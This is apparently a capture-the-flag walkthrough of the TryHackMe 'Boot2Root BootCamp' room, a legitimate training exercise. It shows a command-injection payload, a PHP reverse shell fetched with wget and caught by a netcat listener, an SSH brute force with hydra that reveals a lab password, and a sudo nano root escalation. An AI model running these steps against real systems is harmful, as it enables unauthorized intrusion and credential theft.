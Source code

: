 ## Boot2Root BootCamp [THM]

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/9ce0a116-eb8c-4cb2-93e5-a677da21c60f)

Link: https://tryhackme.com/room/boot2rootbootcamp

Goal: user.txt and root.txt

## nmap
```
nmap -sC -sV 10.10.0.138 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-03 10:21 EDT
Nmap scan report for 10.10.0.138
Host is up (0.24s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT      STATE    SERVICE         VERSION
22/tcp    open     ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 21:e3:e7:8d:9b:87:30:20:54:1a:e7:f8:13:67:20:ca (RSA)
|   256 6d:e0:a0:84:28:52:cc:9f:52:90:56:90:d4:68:fb:33 (ECDSA)
|_  256 07:ee:49:b0:03:ca:4f:a4:bd:ae:ae:0d:80:36:8e:ac (ED25519)
80/tcp    open     http            Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/th15_1mp0551bl3_t0_f1nd/
|_http-title: Hello There!
1152/tcp  filtered winpoplanmess
2725/tcp  filtered msolap-ptp2
3370/tcp  filtered satvid-datalnk
6667/tcp  filtered irc
7000/tcp  filtered afs3-fileserver
16016/tcp filtered unknown
19801/tcp filtered unknown
25734/tcp filtered unknown
27355/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.19 seconds
```
- port 22 open
- port 80 open

## view web [port 80]

![image](images/258144536-a9305310-0b93-4910-82b4-cde266bd1bc4.png)

## dirsearch

```
dirsearch -u 10.10.0.138 
                                                                                           
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Target: http://10.10.0.138/

[10:33:37] Starting:                                            
[10:34:35] 200 -  938B  - /images/                                                 
[10:34:36] 200 -  535B  - /index.html                                       
[10:34:54] 200 -   50B  - /robots.txt                                       
                                                                             
Task Completed
```
- /robots.txt

## robots.txt

![image](images/258146048-da0afcd7-0136-4c29-a022-2b3fd404a49b.png)

- found directory /th15_1mp0551bl3_t0_f1nd/

## dirsearch /th15_1mp0551bl3_t0_f1nd/

```
dirsearch -u 10.10.0.138/th15_1mp0551bl3_t0_f1nd/
                                                                                                          
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Target: http://10.10.0.138/th15_1mp0551bl3_t0_f1nd/

[10:39:10] Starting:                   
[10:40:05] 200 -  228B  - /th15_1mp0551bl3_t0_f1nd/index.php                
[10:40:05] 200 -  228B  - /th15_1mp0551bl3_t0_f1nd/index.php/login/         
                                                                            
Task Completed 
```

- /th15_1mp0551bl3_t0_f1nd/index.php

## index.php

![image](images/258149773-cfe24485-2750-49dc-aa76-f5513722915a.png)

- the bold "please" maybe a hint for this page

## exploit using parameter [basic RCE]

![image](images/258151638-c954b127-5ed3-4492-bc76-baa7790e0848.png)

- payload `index.php?please=whoami`

## upload reverse shell using wget

![image](images/258156320-b4aaad46-51fa-438a-83a1-b7cfcfd51cbb.png)

- create php reverse shell, open python web server `python3 -m http.server <port>` to transfer from local to server

## setup netcat listener

![image](images/258158483-caeae79e-b4e0-4244-9905-b3616c7e19a5.png)

- goto `http://10.10.0.138/th15_1mp0551bl3_t0_f1nd/rev.php` dont forget to open listener `nc -lnvp 1337` on terminal
- `python3 -c 'import pty;pty.spawn("/bin/bash")'` to upgrade shell
- `export TERM=xterm` enable clear

## cd /home/human

![image](images/258160480-87a0bdbe-4a58-4d8d-b548-36ccc42c9834.png)

- user.txt
- password_list.txt

## user.txt

![image](images/258160917-97c1876b-a001-405c-97a2-6701a32042a9.png)

## download password_list.txt

![image](images/258167500-fd7f31df-c871-4759-b906-31a07e1a3374.png)

- same process with upload reverse shell, but this from server to local

## hydra [bruteforce ssh password]

```
hydra -l human -P password_list.txt 10.10.0.138 ssh -t 4 -V

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
[DATA] max 4 tasks per 1 server, overall 4 tasks, 38 login tries (l:1/p:38), ~10 tries per task
[DATA] attacking ssh://10.10.0.138:22/
[22][ssh] host: 10.10.0.138   login: human   password: cuteyadmin
```

- found Username: human, Password: cuteyadmin

## connect ssh [port 22]

![image](images/258172490-b8a0decb-0bce-44dd-bdb4-037f35a8eccc.png)

- using credentials found from hydra

## privilege escalation

![image](images/258173206-59816c82-2995-42dc-b98c-b167107c4d41.png)

- using `sudo -l`

![image](images/258173856-aa909129-ee16-46b3-8671-329476d6bd24.png)

- Search GTFObins for [nano](https://gtfobins.github.io/gtfobins/nano/)

![image](images/258174595-b55b6c18-f050-4a7d-afc8-fe84e7c44296.png)

- root!

## root.txt

![image](images/258174916-45361027-e1fa-4e3e-8cc2-c946f667555f.png)

- PWNED! :star:
